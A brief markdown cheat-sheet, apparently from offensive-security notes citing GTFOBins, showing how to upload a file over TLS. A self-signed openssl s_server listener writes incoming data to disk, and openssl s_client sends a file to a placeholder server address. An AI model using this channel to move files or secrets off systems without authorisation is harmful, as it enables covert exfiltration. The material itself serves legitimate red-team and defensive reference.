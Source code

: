 # Upload

## 1.1 - Server

```
$ openssl req -x509 -newkey rsa:4096 -keyout private.key -out certificate.crt -days 365 -nodes

$ openssl s_server -quiet -key private.key -cert certificate.crt -port 8080 > output.txt

$ sha256sum output.txt
```

## 1.2 - Client

```
$ sha256sum file.txt

$ openssl s_client -quiet -connect <server_IP>:<PORT> < file.txt
```

---
## References

- [GTFOBins: OpenSSL](https://gtfobins.github.io/gtfobins/openssl/)